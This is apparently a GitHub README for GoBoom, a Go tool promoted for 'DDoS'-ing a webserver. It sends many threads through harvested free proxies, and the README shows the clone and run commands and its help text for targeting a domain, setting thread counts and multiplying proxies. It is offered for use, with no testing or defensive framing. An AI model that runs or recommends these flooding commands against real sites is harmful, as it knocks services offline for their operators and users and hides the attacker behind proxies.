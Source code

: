 <div id="header" align="center">
<h1>💥GoBoom💥</h1>
  <p><b>A simple tool to "DDoS" a webserver via multiple threads each using a different proxy</b></p>
</div>



## Features 📁

- Auto harvest of multiple sources for free proxy
- Possibility to add file with your own proxy (ip:port format)
- Possibility to set your own threads limit


## Usage/Examples 📖
### Help
```shell
go run GoBoom.go -h

usage: GoBoom [-h|--help] -d|--domain "<value>" [-t|--threads "<value>"]
              [-p|--proxy-file "<value>" [-p|--proxy-file "<value>" ...]]
              [-x|--proxy-mult <integer>] [-m|--mode <integer>]

              Boom some website by proxy

Arguments:

  -h  --help        Print help information
  -d  --domain      Domain to boom
  -t  --threads     Number of threads. Default: max
  -p  --proxy-file  Proxy file(s), separate with a ',' each files. Format of
                    file(s) must be ip:port. Default: []
  -x  --proxy-mult  You can multiply the working proxys detected with this
                    option. Default: 12
  -m  --mode        Mode of attack, 1 for pass all traffic trough proxy, 2
                    don't use proxy. Default: 1
```
### With Golang
```shell
git clone https://github.com/ugomeguerditchian/GoBoom
cd GoBoom
go run GoBoom.go -d example.com
```
### With binaries
Open it in a terminal and add your args
```shell
GoBoom.exe -d example.com 

```
### Add your own proxy file
You can add your own file containing proxy :
```shell
    go run GoBoom.go -d example.com -p C:\myfile1.txt,C:\myfile2.txt

```

### Use GoBoom without proxy
You have to specify the number of threads you want to use
```shell
    go run GoBoom.go -d example.com -t 100 -m 2

```



## Authors 🖋

- [@ugomeguerditchian](https://github.com/ugomeguerditchian)

## Contributors 🖊

- [@lisandro-git](https://github.com/lisandro-git)

